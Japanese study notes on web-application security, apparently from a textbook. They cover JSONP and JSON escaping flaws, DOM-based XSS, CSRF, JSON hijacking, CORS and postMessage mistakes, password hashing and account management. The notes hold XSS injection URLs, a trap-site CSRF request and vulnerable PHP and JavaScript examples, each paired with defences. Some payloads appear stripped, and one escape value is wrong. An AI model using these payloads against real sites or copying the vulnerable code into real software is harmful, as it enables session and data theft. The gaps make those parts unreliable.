* キャッシュサーバでキャッシュ制御の適切な設定を行う
    * proxy_ignore_headersの行を消す
* URLに乱数を付与
    * キャッシュは再利用されない
    * 無駄にキャッシュされるのでキャッシュストレージの負荷になる
    * なんらかの理由でURLが分かるとキャッシュを閲覧されるリスクがある

[CDN切り替え作業における、Web版メルカリの個人情報流出の原因につきまして](https://tech.mercari.com/entry/2017/06/22/204500)
* CDNのプロバイダ切り替えのときに, キャッシュされるべきでない情報がCDNにキャッシュされて他のユーザ情報が表示された

## Web API実装における脆弱性(第2版)
## JSONとJSONPの概要
### JSON
* JavaScriptのオブジェクトリテラルに従ったデータフォーマット
* JavaScriptのeval関数で変換できる
    * 危険なのでJSON.stringify, JSON.parseなどを使う

```
const obj = { name : "abc", age : 29 }
const json = JSON.stringify(obj)
// {"name":"abc","age":29}
```

```
const json = '{"name":"abc","age":29}'
const obj=JSON.parse(json)
```

### JSONP
* 同一オリジンポリシーの枠内で異なるオリジンのサーバからデータを取得する方法の一つ
    * 今はCORSを使う方がよい
* script要素を用いて外部のJavaScriptを直接実行する

```
// 動作はするが問題がある(後述)
<?php
  $callback = $_GET['callback'];
  header('Content-Type: text/javascript; charset=utf-8');
  $json = json_encode(array('time' => date('G:i')));
  echo "$callback($json);";
```

```
<script>
  function display_time(obj) {
    const txt = document.createTextNode("time:" + obj.time)
    const p = document.getElementByID("time")
    p.appendChild(txt)
  }
</script>
<p id="time"></p>
<script src="https://sample.com/a.php?callback=display_time"></script>
```

## JSONエスケープの不備
JSON文字列生成時のエスケープ処理に不備があるとその文字列を受ける側がJSONPを使っていると不正なJavaScriptの実行につながる可能性

```
<?php
  $zip = $_GET['zip'];
  $json = '{"msg":"not found:' . $zip . '"}';
  header('Content-Type: text/javascript; charset=utf-8');
  echo "callback_zip($json);";
```

```
// use jQuery
<script>
$.ajax({
  url: "http//sample.com/a.php?zip=" + location.hash.slice(1),
  dataType: "jsonp",
  jsonCallback: "callback_zip"
}).done(function(data) {
  $('#msg').text(data.msg);
})
</script>
<p id="msg"></p>
```

攻撃例

```
http://sample.com/sample.html#1"%2balert(document.domain)%2b"
```

このURLでアクセスするとajaxの中の文字列は

```
"http://sample.com/a.php?zip=1"+alert(document.domain)+"
```

生成されるJSONPは

```
callback_zip({"msg":"not found:1"+alert(document.domain)+""});
```

これがscript要素で読み込まれるとJavaScriptとして実行されてalertが実行される

### 対策
* 文字列連結によるJSONデータ生成をしてはいけない
* 信頼できるライブラリを用いてJSONを生成する
* evalを使ってはいけない

上記の例では

```
  $json = json_encode(array("msg" => "not found:" . $zip));
```

にすると

```
callback_zip("msg":'not found:1"+alert(document.domain)+');
```

となって安全

## JSON直接閲覧によるXSS
JSONを返すWeb APIをブラウザで直接閲覧させることで攻撃が可能になる場合がある


```
<?php
  $zip = $_GET['zip'];
  // header('Content-Type: text/javascript; charset=utf-8');
  echo json_encode(array("msg" => "not found:" . $zip));
```

MIMEタイプの指定を忘れているとtext/htmlになってしまう

このAPIに

```
http://sample.com/a.php?zip=
```
でアクセスするとalertダイアログが表示される

### 原因

HTTPレスポンス

```
HTTP/1.1 200 OK
...
Content-Type: text/html; charset=utf-8
...
***"}
```

* MIMEタイプがtext/htmlなのでブラウザがHTMLとして解釈
* img要素で画像を表示しようとする
* エラーなのでonerrorイベント発動
* 代表的なセキュリティ機能

### 対策
* MIMEタイプを正しくapplication/jsonとしている
* 古いIE(IE9)がContent-Typeヘッダを無視することがある

* `X-Content-Type-Optins: nosniff`をつけるとIE8, IE9では大丈夫になる
* (本来不要だが)JSONでも`<`や`>`をUNICODEエスケープするとXSSにはならない
    * `<` ; \u003c
    * `>` ; \u003e
    * `&` ; \u0026
    * `'` ; \u0029
    * `"` ; \u0022

* XMLHttpRequestなどのCORS対応の機能だけから呼び出せるようにする
* jQueryなどはXMLHttpRequestによるHTTPリクエストのヘッダに`Xrequested-With: XMLHttpRequest`を付与する
    * このヘッダが無いと不正なリクエストとみなしてエラーにできる

## JSONPのコールバック関数名によるXSS
* JSONPではcallback関数を外部から指定できる場合がある
* この名前によるXSSが可能になることがある

```
<?php
  $callback = $_GET['callback'];
  $json = json_encode(array('time' => date('G:i')));
  echo "$callback($json)";
```

これを

```
http://sample.com/a.php?callback=%3Cscript%3Ealert(1)%3C/script%3E
```
で呼び出すと`<script>alert(1)</script>({"time":"12:34"});`になる

### 問題点
* 外部から指定されたcallback関数名を検証していない
    * 関数名の文字種と文字数を制限する
    * 英数字とアンダースコアのみなど
* MIMEタイプの指定を忘れている

## Web APIのCSRF
経路
* GETリクエストによる攻撃
    * GETリクエストで副作用を伴う処理をしていると攻撃対象になる
* 次のタイプでのHTMLフォームによる攻撃
    * text/plain ; エンコードしていない
    * application/x-www-form-urlencoded ; 通常のフォーム
    * multipart/form-data ; ファイルアップロード形式

### クロスオリジン対応のXMLHttpRequestによる攻撃
* サイト側の許可無しに異なるオリジンからリクエストを送信可能
* POSTデータの中身は自由に設定可能
* サーバアプリでMIMEタイプをチェックしていない

```
// メールアドレスをJSONで返すAPI
if (empty($_SESSION['mail'])) {
  $_SESSION['mail'] = 'test@sample.com';
}
header('Content-Type: application/json; charset=utf-8');
echo json_encode(array('mail' => $_SESSION['mail']));
```

```
// メールアドレスを変更するAPI change.php
if (empty($_SESSION['mail'])) {
  // error
}
$json = file_get_contents('php://input');
$array = json_decode($json, true);
// セッション変数の更新
$_SESISON['mail'] = $array['mail'];
$result = array('result' => 'ok');
header('Content-Type: application/json; charset=utf-8');
echo json_encode($result);
```

罠サイト

```
<script>
  const req = new XMLHttpRequest()
  req.open("POST", "http://sample.com/change.php")
  req.withCredentials = true // CORS
  req.send('{"mail': "cracked"}');
</script>
```

* CORSを設定しているのでリクエストはできる
* API側はクロスオリジンの呼び出しを許可していないのでこのHTTPリクエストのレスポンスは参照できない
* CSRF攻撃自体は成立(change.phpは実行されてメールアドレスが変更される)

## CSRFの攻撃経路
* HTMLフォームによるもの
* XMLHttpRequestによるもの
* 多くのWebアプリがHTTPリクエストのMIMEタイプを検証していない

## 対策
### CSRF token(セッション変数にtokenを保持)
* Webページにhiddenパラメータやカスタムデータ属性でtokenを保存してJavaScriptから参照
    * ログインAPIでtokenが無ければ生成してセッション変数に記憶しtokenをJSONで返す
    * このAPIはCORSに対応していないので他のオリジンから利用できない
    * Web APIがそのtokenをチェックする

```
// メールアドレスをJSONで返すAPI(token生成版)
if (empty($_SESSION['token'])) {
  $token = bin2hex(openssl_random_pseudo_bytes(24));
  $_SESSION['token'] = $token;
}

header('Content-Type: application/json; charset=utf-8');
echo json_encode(array(
  'mail' => $_SESSION['mail'],
  'token' => $_SESSION['token']
));
```

```
$token = $_SERVER['HTTP_X_CSRF_TOKEN'];
if (empty($token) || $token !== $_SESSION['token']) {
  // error
}
```

### 二重送信クッキー(Double-submit Cookie)
* 乱数によるtokenをクッキーとして保持
* 同じ値をリクエストヘッダのパラメータとしてクッキーと別に送信
* Web APIでそれらの値が同じであることを確認する
* OWASPのCSRF Prevention Cheat Sheetでも推奨されている
  [CSRFの防止策に関するチートシート](https://jpcertcc.github.io/OWASPdocuments/CheatSheets/Cross-SiteRequestForgeryPrevention.html#Double_Submit_Cookies)

問題点
* クッキーは第三者から強制される可能性がある
* 攻撃者が適当に生成したtokenをサイト利用者のクッキーに強制して同じ値をtokenパラメータとして送信できる
* tokenパラメータはHTTPリクエストヘッダを用いることを推奨
    * プリプライとリクエストが許可されないとクロスオリジン通信でカスタムリクエストヘッダを付与できないので安全

### カスタムリクエストヘッダによる対策
たとえばjQueryは`X-Requested-With`ヘッダを自動的に付与するのでそれをチェックする

## JSONハイジャック
* ブラウザのバグによる脆弱性
* 例 : JSON APIの値をscript要素から呼び出す裏技(昔のFirefoxのバグ)
```
// json
[{"mail":"a@sample.com"}]
```

```
// 攻撃ページ
<body onload="alert(x)">
<script>
var x = ""
Object.prototype.__defineSetter__("mail", function(v) { x += v + " "; });
</script>
<script src="sample.com/a.json"></script>
```
* a.jsonが読まれて値が設定されるときに__defineSetter__が発動
* その中身がxに代入されて表示

### 対策(従来の対策とかぶるが安全のため)
* `X-Content-Type-Options: nosniff`の付与
* `X-Requested-With: XMLHttpRequest`を確認
    * script要素からJSON APIを呼び出すとカスタムリクエストヘッダはつけられない

## JSONPの不適切な利用
* 同一オリジンポリシーの制限を抜けるために作られた手法
* 使い方を間違えると簡単に脆弱性に直結
* できるだけCORS対応のAPIに移行すべき

### JSONPによる秘密情報の提供は避ける
正規サイトと罠サイトからのJSONPの呼び出しヘッダではRefererが異なるのみなのでアクセス制御には不向き

## 信頼できないJSONP APIの仕様
* API側に悪意があると任意のJavaScriptが呼ばれてしまう
* API提供元が信用できないと使ってはいけない

## CORSの検証不備
### オリジンとして"*"を指定する
* `Access-Control-Allow:Origin: *`
* 公開情報のみを提供する場合はOK
* 秘密情報を扱う場合は情報漏洩の危険性
* オリジンを制限しHTTPリクエストのOriginヘッダを検証するほうがよい

### オリジンのチェックを緩和する
XMLHttpRequestのwithCredentialsを指定した場合はAccess-Control-Allow-Originに指定するヘッダを明示する必要がある

## 設定した方がよいセキュリティを強化するレスポンスヘッダ
* `X-Frame-Options`
    * frameやiframeの内部に表示できない
    * クリックジャック対策
* `X-Content-Type-Options: nosniff`
    * MIMEタイプの解釈を厳密にする
* `X-XSS-Protection: 1; mode=block`
    * XSSフィルタを有効にする
* `Content-Security-Policy`
    * XSS攻撃を緩和する / 開発コストは大きい
    * `Content-Security-Policy: default-src 'self'`
    * すべてのメディアはオリジンからのみ読める
    * scriptタグの禁止
* `Strict-Transport-Security: max-age=31536000`
    * HTTPS接続を強制する ; HTTP Strict Transport Security(HSTS)
    * httpへのダウングレード攻撃を防ぐ

## JavaScriptの問題(第2版)
### innerHTMLによるDOM Based XSS
URLの#以下の部分(フラグメント識別子)に応じて内容を変化させるアプリ

```
<script>
window.addEventListner('hashchange', changeHash, false)
window.addEventListner('load', changeHash, false)

function changeHash() {
  const hash = decodeURIComponent(window.location.hash.slice(1))
  const color = document.getElementById('color')
  color.innerHTML = hash
}
</script>
<a href="#赤">赤</a>
<a href="#青">青</a>
<a href="#緑">緑</a>
```

* `http://sample.com/a.html#赤`で赤に飛ぶ
* `http://sample.com/a.html#`で攻撃

innerHTMLでJavaScriptが動く

### document.writeによるDOM Based XSS
document.write()でもXSS可能

```
<script>
const url = decodeURIComponent(location.href)
document.write('')
</script>
```

`http://sample.com/a.html#%22%3E%3Cscript%3Ealert(document.domain)%3C/script%3E`で攻撃

### XMLHttpRequestのURL未検証問題
フラグメントから別のコンテンツを読み込む

```
const req = new XMLHttpRequest()
const url = localtion.hash.slice(1) + '.html'
req.open('GET', url)
...
```

```
// attack.php
<?php
  header('Access-Control-Allow-Origin: http://sample.com');
?>
```

```
http://sample.com/a.html#//trap.com/attack.php?
```
で攻撃

### jQueryのセレクタ動的生成によるXSS
* jQuery()関数はHTMLタグ文字列を指定するとDOM要素を生成する
    * `$('<p>test</p>')`
    * `$('input[name="' + color + '""]')`
* 外部からの文字列が混ざると攻撃者が新しい要素を追加できる可能性

```
<script>
const uri = new URI()
let color = uri.query(true).colr
if (!color) color = 1
$('input[name="color"][value="' + color + '"]').attr("checked", true)
</script>
```

正常パターン
```
http://sample.com/a.html?color=2
```

攻撃
```
http://sample.com/a.html?color="]
```

jQuery 3.2.1以降ではセレクタによるDOM Based XSSは防げる


### javascript:スキームによるXSS
location.hrefに任意の文字列を設定できるとXSSの原因となる

```
<input type="button" value="go" onclick="go()">
<script>
function go() {
  const url = location.hash.slice(1)
  location.href = url
}
</script>
```

javascript:スキームを設定する
```
http://sample.com/a.html#javascript:alert(1)
```

### 脆弱性が生まれるパターン
外部入力文字列をそのまま使ってしまう
* DOM操作でHTMLタグが有効になる
    * document.write(), document.writeln()
    * innerHTML, outerHTML
    * jQueryのhtml(), jQuery(), $()
* evalを使う
    * eval()
    * setTimeout(), setInterval()
    * Functionコンストラクタ
* XMLHttpRequestのURLが未検証
* location.href, a要素のsrc属性, href属性のURLが未検証

### 対策

### 適切なDOM操作
```
const color = document.getElementById('color')
color.innerHTML = decodeURIComponent(window.location.hash.slice(1))
```
↓
```
color.textContent = decodeURIComponent(window.location.hash.slice(1))
```
### 記号のエスケープ
* document.writeを使わない
* HTMLエスケープする
```
function escape_html(s) {
  s = s.replace(/&/g, "&amp;")
  s = s.replace(/</g, "&lt;")
  s = s.replace(/>/g, "&gt;")
  s = s.replace(/"/g, "&quot;")
  s = s.replace(/'/g, "&#39;")
  return s
}
```
### eval, setTimeout, Functionコンストラクタに外部文字列を渡さない
```
const msg = "alert(1)"
setTimeout(msg, 1000)
```
はalert(1)を実行する

### URLのスキームはhttpかhttps限定
正しい書き方は[オープンリダイレクタのvalid_check_url](#valid_check_url)を参照

### jQueryのセレクタを動的生成しない
可能ならparseIntなどを利用

### XMLHttpRequestのURL検証
* 外部からのURLを受け付けない
* 固定のテーブルから選択させる
```
const menuTbl = { a:'a.html', b:'b.html', ... }
const url = menuTbl[location.hash.slice(1)]
...

## Webストレージの不適切な利用
* クッキー ; リクエストごとに自動的にサーバに送信される
* Webストレージ ; 読み書きのみ可能 サーバには自動的に送信されない
    * 同一オリジンポリシー
    * localStorage ; 永続的
    * sessionStorage ; ブラウザのタブが開かれている間のみ保持される
    * JavaScriptから常にアクセス可能(httpOnlyがない)

Webストレージに秘密情報は保存しない

## postMessage呼び出しの不備
異なるオリジン(iframeやwindow.openなど)で複数のウインドウ間でデータのやりとりをする仕組み

### [postMessage demo](postmessage/index.html)
1. 子(内側)が親(外側に)"secret-data"というmessageを送信する
2. 親がそのmessageを受けて表示し子に"parent received"を送信する
3. 子がそのmessageを受けて表示する

挙動

* Chrome, Edgeではparent msg:"secret-data"と表示される
* Firefoxでは"parent received"と表示される(何故?)

### postMessageの仕様

`win.postMessage(msg, origin)`
* win ; メッセージの送信先オブジェクト
* msg ; メッセージ文字列
* origin ; 送信先オリジン(任意の場合は'*')

originを正しいURLにすると罠サイトの中にiframeとして入れられても親に送信しない

### subが受け取ったmessageをそのままinnerHTMLで出力するとDOM Based XSSの危険性

```
  event.source.postMessage('', '*')
```
event.originに送信元オリジンが設定されているのでそれを確認すること

### オープンリダイレクト(復習)
```
<body>
<input type="button" value="run" onclick="go()">
<script>
function go() {
  const url = location.hash.slice(1)
  if (url.match(/^https?:\/\//)) { /* urlがhttp://かhttps://なら通す */
    location.href = url
  } else {
    alert('error')
  }
}
</script>
</doby>
```
`http://sample.com/a.html#http://trap.com`でtrap.comにリダイレクトしてしまう

### 対策
* リダイレクト先のURLを固定するか番号指定にする

```
## 認証
認証 ; 利用者が本人であることを確認すること

### ログイン機能
ログイン機能 ; ユーザIDとパスワードをデータベースに照合して一致すれば認証されたとみなす処理

攻撃
* SQLインジェクションによるログイン機能の迂回
* SQLインジェクションによるパスワードの入手
* パスワード試行
    * 様々なIDとパスワードを繰り返し試す
* ソーシャルハッキング
    * 利用者本人をだまして重要情報を得る
    * [NHK](https://www3.nhk.or.jp/news/html/20180512/k10011436321000.html)
        * コインチェック事件では半年前から管理者と交流して信用させてからウイルスメールを開かせる
    * ショルダーハック
* フィッシング
    * 偽ページに重要情報を入力させる

パスワード
* ランダムな文字列は覚えにくい
* 文字数の上限を増やしてパスフレーズを入力してもらうようにするとよい
* 積極的なパスワードポリシーの確認
    * ありがちな単語の禁止
    * ユーザIDと同じパスワードの禁止

* 複数のサービスでパスワードを使い回さない
* パスワードの定期的変更は不要([総務省 国民のための情報セキュリティサイト](http://www.soumu.go.jp/main_sosiki/joho_tsusin/security/basic/privacy/01-2.html))

## パスワードの要件と攻撃への対策(第2版)
* 桁数を(たとえば)128桁以下に緩める
* パスフレーズが使えるようになる
    * パスフレーズは長いが覚えやすくて攻撃されにくいというメリットがある
* 文字種の制約は入れすぎない方がよい
    * 利用者が安全なパスワードを使おうというモチベーションが下がる可能性
* 二段階認証
    * 初回ログイン時のみ二段階認証. その後一定期間通常認証
    * 通常の使い方でないとき / 重要な処理のとき二段階認証
    * 常に二段階認証をすると利用者の負担が増える
## 総当たり攻撃への対策
* アカウントロック ; パスワードの入力間違いが一定回数を越えるとロックする

### アカウントロック
* ユーザIDごとにパスワード間違いの回数を数える
* ログインに成功するとその回数を0にする
* 間違いの回数が上限を越えるとアカウントをロックする
* ロックされるとメールなどで対象者(と管理者)に通知

ロックされた場合
* 30分経過したら自動的に再有効化する
    ＊再有効化するのは正当な利用者が締め出される可能性を減らすため
* 管理者が本人確認した後に再有効化する

## 総当たり攻撃の変形

### 辞書攻撃

頻度の高いパスワード候補から順に試す

### ジョーアカウント探索

* ユーザIDとパスワードが同じアカウント(ジョーアカウント)を探す
* 単純なアカウントロックでは対処できない

### 逆総当たり攻撃
* パスワードを固定してユーザIDを変えながら探す
* これも単純なアカウントロックでは対処できない

### 対策
* 積極的なパスワードチェック
* ログインIDの秘匿
* ログイン失敗率の監視

## パスワード保護の必要性
パスワードが漏洩すると
* 該当者の権限を悪用
* 該当者がパスワードを利用していると他サイトに波及

### メッセージダイジェストによるパスワードの保護
SHA-256などの暗号的に安全なハッシュ関数を使っても単にそのハッシュ値Hを保存するのではHが漏洩したときにオフライン攻撃を受けやすい

### 攻撃
* Hash(pass) = Hとなるpassを総当たりで探す
* GPGPUを使えば[a-zA-Z0-9]で8文字程度の全数探索は余裕
    * [hashcat](https://hashcat.net/hashcat/)
    * Tesla-V100 x 4でSHA-256が2.7e10回/秒?(3時間程度)[https://pastebin.com/nRp7fPRf](https://pastebin.com/nRp7fPRf)
* レインボーテーブル

### 対策
* 鍵ストレッチ
    * ハッシュ関数を10万回繰り返したりする
    * PKCS#5(RFC 2898) PBKDF2
* salt
    * ユーザごとにランダムな値(あるいはユーザIDのある種のハッシュ値など)をパスワードとくっつけてハッシュ値をとる
    * 同じパスワードでもユーザごとに異なるようになる
    * レインボーテーブル対策
* エラーメッセージ
    * ×「パスワードが違います」
    * ○「IDまたはパスワードが違います」
    * ◎「IDまたはパスワードが違うかアカウントがロックされています」
* GPGPU耐性のあるハッシュ関数を使う
    * argon2などが提案されている[Password Hashing Competition](https://password-hashing.net/)

## レインボーテーブル
* 総当たり攻撃につかうパスワードの個数をNとする
* N個のテーブルがあれば一度ハッシュHをすればあるか無いか判定できる
* Nが大きいメモリが大変
* レインボーテーブルは演算回数をM倍かかる代わりにメモリ量をN/Mにする方法の一つ

### 還元関数
ハッシュ値から適当な総当たり攻撃の中に含まれる適当なパスワードを生成する関数R

パスワードpに対してHとRを交互に計算する。
```
p → h1 = H(p) → r1 = R(h1) → h2 = H(r1) → r2 = R(h2) → ... → r_M
```

あるハッシュ値hに対してRとHを交互に(最大M回)作用させてr_Mになればこの列のどれかにマッチしたことになる(発見)。
pとr_Mだけ記録すればよいので1/Mになる。

### 改良
* 沢山のpを用意する
* 途中で衝突して同じ値にならないようRをM種類用意する

# アカウント管理

## ユーザ登録
### メールアドレスの受信確認

用途
* パスワードリマインダ
* パスワード変更
* アカウントロック発生時の通知

確認方法
* トークンつきURLをメールで送付してクリックしてもらう
    * メリット
        * 操作性がよい
    * デメリット
        * 実装がやや面倒
        * 利用者にメールのURLをクリックさせるのは好ましくない
        * URLが切れることがある
* トークンをメールで送付し, そのトークンを入力してもらう
    * メリット
        * 実装が容易
        * 利用者にURLをクリックさせなくてよい
    * デメリット
        * 入力操作がやや面倒

### ユーザIDの重複禁止

ユーザIDは一意でなければならない

そうでなかった事例
* パスワードが異なると同じIDで登録できるサイト
* [投げ銭サービス「Osushi」は危険なのか](https://snsdays.com/other/osushi-danger-failure/)
* ユーザIDに一意制約をつけられないサイト
    * ユーザの削除を論理削除(消したことにする)にしているため一意制約がつけられない

### ユーザの自動登録への対処
自動登録できると外部からの自動操作により大量にユーザを作成される可能性

* CAPTCHAによる自動登録対策
    * アクセシビリティを損なう可能性
    * 人間の認識が困難なものもある
    * わりとすぐに破られる

### パスワード変更
* 現在のパスワードを確認すること
    * 再認証
    * セッションハイジャックされた状態で第三者がパスワードを変更することを防止
    * CSRF脆弱性対策
* パスワード変更時のメール通知

パスワード変更機能に生じやすい脆弱性

* SQLインジェクション
* CSRF

### メールアドレス変更
* 新規メールアドレスに対する受信確認
* 再認証
* メール通知
    * 新旧両方に通知

### パスワードリマインダ
利用者がパスワードを忘れた場合にパスワードを知らせる仕組み

* (狭義の)パスワードリマインダ ; 現在のパスワードを教えるもの
* パスワードリセット ; リセットされたパスワードを伝えるもの

### 管理者向けパスワードリマインダ
利用者がパスワードを忘れた場合に管理者に問い合わせて対処してもらう場合

* パスワードを表示すると管理者が悪用する可能性がある
* パスワードリセットを実装する

手順
* 問い合わせを受け付けて利用者の本人確認を行う
    * オンラインバンキングなら捺印済みの申請書を送ってもらうなど
* 管理者がパスワードをリセットして利用者に仮パスワードを伝える
    * リセット後のパスワードをメールで送信
    * 仮パスワードは自分のパスワード変更のみ操作可能なもの
* 利用者は仮パスワードでログインして直ちにパスワードを変更する

### 利用者向けパスワードリマインダ

本人確認の方法
* ユーザ登録時に「秘密の質問と答え」を登録してもらい, その回答をしてもらう
    * 単純なものはパスワードより破られやすい
* 登録されたメールアドレスのメールを受信できることで本人確認とする

パスワードの通知方法

* 現在のパスワードをメールで通知(非推奨)
    * パスワードが適切に暗号化されていないのではという不安を利用者に与える
    * メールが盗聴されると第三者に不正利用される可能性
* パスワード変更画面のURLをメールで通知(非推奨)
    * メール添付されたURLを参照する習慣を利用者にさせるのは好ましくない(筆者)
* 仮パスワードを発行してメールで通知(推奨)
    * 盗聴されたとしてもパスワード変更タイミングで通知メールにより利用者が気付ける
    * 秘密の質問の確認がナイト第三者に勝手に無効化される
* パスワード変更画面に直接遷移

[パスワードリセット]ボタン→登録メールアドレスにtokenを通知→tokenを入力→新パスワード入力

token入力は回数と時間の制限を設ける

### アカウント停止
* 利用者本人からの依頼
* 不正アクセスを受けている場合

### アカウント削除
* 本人の意思確認
* CSRF脆弱性対策としてパスワードによる再認証
* GDPRの削除権
* idは一度削除された後, 別の人がそのidを取得してもよいのか。二度と使えない(欠番)ようにした方がよいサービスもある

# 認可(Authorization)
認証された利用者に対して権限を与えること

権限の例

* 認証された利用者にのみ許可された機能
    * 退会処理
    * 送金
    * 新規ユーザ作成
* 認証された利用者のみに許可された情報の閲覧
    * 非公開の個人情報
* 認証された利用者のみに許可された編集操作
    * パスワード変更
    * プロフィール変更
    * メール送信

認可不備の典型例
* 情報リソースのIDを変更すると権限外の情報を参照できる
    * hiddenパラメータのみで指定していると改竄可能
* メニューの表示・非表示のみで制御
    * URLを推測できると悪用可能

認可制御の要件定義
* ロール(役割)に応じた権限の割り当て
* 各画面に対して実行してよいユーザか
* そのユーザはリソースに対する操作(参照, 変更, 削除)の権限があるか
を確認する

ユーザ情報は外部から書き換えられないセッション変数に保持する
